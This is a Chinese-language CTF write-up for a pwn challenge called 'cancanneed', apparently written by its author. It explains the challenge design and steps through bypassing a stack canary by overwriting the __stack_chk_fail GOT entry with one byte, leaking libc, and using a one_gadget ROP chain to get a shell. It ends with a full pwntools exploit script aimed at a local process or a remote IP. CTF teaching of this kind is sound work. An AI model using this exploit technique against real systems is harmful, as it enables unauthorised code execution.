





# cancanneed

## 出题思路

本题出题的思路是想考一考canary的绕过方式，原本预期是想通过任意7字节写入修改`fs[0x28]`位置存储的canary的值。但是考虑到该种利用方式并不常见，既然都可以任意字节写了，那么可以修改`__stack_chk_fail`函数的got表来绕过canary的检测。

同时，为了增加一些难度，进行了`close(1)`的操作，拿到shell后需要使用`exec 1>&2`的方式进行输出流重定向到错误流，这样就可以正常回显。

最后，在最后一步的rop获取shell的时候，只能写入0x18的rop链，由于栈的问题，常用的`pop_rdi、/bin/sh、system`的rop链由于缺少了`ret`进行抬栈，所以会直接EOF。为了解决这样的问题，可以选择`one_gadget`进行一步到位。考虑到libc2.35的one_gadget利用条件苛刻，出题时人为添加了一个gadget:`pop r10; ret;`，该条gadget可以配合修改rbp的值到bss段，满足如下one_gadget的条件

```bash
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
```

## 解题步骤

### 0x1
首先拿到题目的第一步，使用`checksec`进行检测，发现开启了`canary`，但是没开启`pie`



### 0x2
再用ida打开，发现main函数中的read可以直接从ret_address的位置开始写，能够写0x20字节的rop链。同时限制了rop链不能重新执行main函数，所以不断返回main函数然后写rop的思路就无法实现了。但是可以通过puts的方式获取libc的基地址。



同时由于程序没删除符号表，看到有一个vuln的函数



那么第一步的思路还是比较清晰的，main中的rop链可以这样写
- pop_rdi
- elf.got["puts"]
- elf.plt["puts"]
- vuln_address

这样输出了puts函数的真实地址的同时，会继续执行`vuln`函数

### 0x3
现在来分析vuln函数，发现可以任意地址写1字节，然后有一个0x18大小的rop链可以编写。

但是存在一个问题，那就是canary如何绕过？

可以想到这个任意地址写1字节是用来绕过canary的！

但是如何绕过？

我们使用gdb启动程序，查看程序的got表，如下是从未初始化的got表，也就是一个函数都没有执行：



我们知道，canary的判断函数是`__stack_chk_fail`，如果我们把这个got表给修改了，那么canary的检测就可以绕过。

但是我们有个疑问，就是上图中红框的数据是什么？

其实这就设计到了动态链接的原理，上图的红框中的地址都是第一次用来寻找libc中真实地址的跳转。如果某个函数是第一次执行，那么就会jmp到这个红框地址中，去libc中寻找这个函数的真实地址，找到之后将真实地址重新写回got表中。

所以我们可以将`__stack_chk_fail`的got表中写入一字节，让`0x404028 (__stack_chk_fail@got.plt) —▸ 0x401050`指向`0x401060`，也就是close。当然其他的可执行地址。但是实际测试只能指向read的`0x401070`和close的`0x401060`。


### 0x4

绕过了canary的检测后，我们有0x18额外的字节来写rop链。

首先想到的是常规的rop链
- pop_rdi
- /bin/sh
- system

但是由于高版本的libc需要栈对齐，但是本题没有位置输入`ret`来执行栈对齐。所以需要换一个思路——`one_gadget`

通过查询`one_gadget`的满足条件，我们发现了一个需要`r10`和`[rbp-0x70]`满足条件的gadget

```bash
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
```

由于我们在写rop的时候可以覆盖`rbp`，同时只需要将`rbp`指向bss段中没有数据的地方，那么就能满足`[rbp-0x70] == NULL`。

同时我们发现elf的gadget中存在一个`pop r10; ret;`，我们可以通过这个gadget将r10置为0。



所以我们的rop链是
- padding
- rbp --> bss
- pop_r10
- 0
- one_gadget

这样就能获取shell辣！

### 0x5

获取了shell还不行，本题执行了`close(1)`，关闭了输出流。需要使用重定向的方式重新开启输出流：`exec 1>&2`，让输出流重定向到错误流，这样就能真正获取输出辣！

### exp

```python
#!/usr/bin/python3
# -*- coding: UTF-8 -*-
# -----------------------------------
# @File    :  exp.py
# @Author  :  woodwhale
# @Time    :  2023/03/06 12:00:25
# -----------------------------------

from pwn import *

DEBUG = 1
context.log_level = "debug"
context.arch = "amd64"

io = process("../file/cancanneed") if DEBUG else remote("101.34.90.86", 20003)
elf: ELF = ELF("../file/cancanneed")
libc: ELF = elf.libc

sa = lambda word, data: io.sendafter(word, data)
sl = lambda data: io.sendline(data)
l64 = lambda: u64(io.recvuntil(b"\x7f", False)[-6:].ljust(8, b"\x00"))

vuln_addr = 0x40124D
pop_rdi = 0x4011DE
pop_rsi = 0x4011E0
pop_r10 = 0x4011E2
__stack_chk_fail_got = 0x404028
next_rbp = 0x404900

sa("ZJNUCTF!", flat([pop_rdi, elf.got["puts"], elf.sym["puts"], vuln_addr]))
libc.address = l64() - libc.sym["puts"]
print(f"libc_base --> {libc.address:#x}")

sa("read?", p64(__stack_chk_fail_got))
sa("ok", b"\x60")
sa("canary!", b"b" * 0x20 + flat([next_rbp, pop_r10, 0, libc.address + 0xEBCF1]))

time.sleep(0.5)
sl(b"exec 1>&2")    # 重定向

io.interactive()
```